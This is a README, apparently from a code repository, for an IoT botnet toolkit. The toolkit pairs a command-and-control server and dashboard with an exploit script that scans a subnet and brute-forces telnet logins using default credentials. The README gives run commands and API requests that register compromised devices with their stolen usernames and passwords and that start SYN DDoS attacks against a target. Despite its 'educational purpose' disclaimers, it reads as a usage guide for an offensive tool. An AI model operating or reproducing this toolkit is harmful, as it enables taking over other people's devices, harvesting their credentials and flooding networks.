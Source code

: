 # IoT Attack & Threat Framework

## Overview

This framework provides tools for IoT security research in controlled lab environments. It consists of a Command and Control (C2) server and an exploit script that can discover vulnerable IoT devices, exploit them through telnet brute-forcing, and coordinate distributed attacks.

## 🚨 Educational Purpose Only

This software is designed for educational and research purposes in controlled lab environments only. It should never be used against systems without explicit authorization.

## Components

1. **C2 Server** (`c2_server/`) - Central command server with web interface
2. **Exploit Script** (`exploit.py`) - Network scanning and device exploitation
3. **Bot Client** (`bot_client.py`) - Simulated IoT bot for testing

## Quick Start

### 1. Install Dependencies

```bash
# Create virtual environment
python -m venv .venv

# Windows
.venv\Scripts\Activate.ps1

# Linux/Mac
source .venv/bin/activate

# Install requirements
pip install -r requirements.txt
```

### 2. Start the C2 Server

```bash
cd c2_server
python run_c2.py
```

Web interface: `http://127.0.0.1:5000`

### 3. Run Network Exploitation

```bash
python exploit.py [C2_SERVER_IP] [TARGET_SUBNET]
```

Example:
```bash
python exploit.py 127.0.0.1 192.168.1.0/24
```

## Web Interface Features

- **Real-time Dashboard**: Monitor compromised devices and active attacks
- **Device Management**: View online/offline status and device details
- **Attack Coordination**: Start/stop DDoS attacks remotely
- **Network Scanning**: View discovered vulnerable devices
- **Statistics**: Track compromise rates and attack metrics

## C2 Server API

### Device Registration
```http
POST /bot-checkin
Content-Type: application/json

{
    "ip": "192.168.1.100",
    "username": "admin",
    "password": "password",
    "device_type": "camera"
}
```

### Attack Management
```http
POST /start-telnet-ddos
Content-Type: application/json

{
    "target": "192.168.1.1",
    "attack_type": "syn"
}
```

```http
POST /stop-telnet-ddos
```

## File Structure

```
AttackThreat/
├── exploit.py              # Main exploitation script
├── bot_client.py           # IoT bot simulator
├── credentials.py          # Default credential lists
├── requirements.txt        # Python dependencies
└── c2_server/             # Command & Control server
    ├── c2_server.py       # Flask web server
    ├── web_ui.py          # Web interface template
    ├── db_manager.py      # Database operations
    ├── tn_manager.py      # Telnet connection manager
    ├── run_c2.py          # Server startup script
    └── requirements.txt   # C2-specific dependencies
```

## Development

### Testing the System

```bash
# Linux
./test_system.sh

# Check syntax
python -c "import exploit; print('✅ exploit.py OK')"
python -c "import c2_server.web_ui; print('✅ web_ui.py OK')"
```

### Database Schema

The C2 server uses SQLite with tables for:
- `devices` - Compromised device inventory
- `scan_results` - Network discovery data
- `sessions` - Active attack sessions

## Security Notes

- All communications use HTTP (for lab use only)
- Passwords are stored in plaintext (educational purposes)
- No authentication required for C2 interface (lab environment)
- Designed for isolated test networks only

## Legal Disclaimer

This tool is for authorized security testing and educational purposes only. Users are responsible for ensuring compliance with all applicable laws and regulations. Unauthorized use against systems you do not own or have explicit permission to test is prohibited and may be illegal.
- Required Python packages (automatically installed by start scripts):
  - Flask
  - Requests
  - Telnetlib3
  - Python-dotenv
  - Paho-MQTT

## Documentation

For detailed documentation on the C2 server architecture and API endpoints, see the [C2 Server README](c2_server/README.md).

## System Cleanup

### Windows
```
cleanup.bat
```

### Linux/Ubuntu
```
./cleanup.sh
```

This will clean up the database, log files, and cache files for a fresh start.

## License

This project is for educational purposes only. Usage for any malicious activity is strictly prohibited.
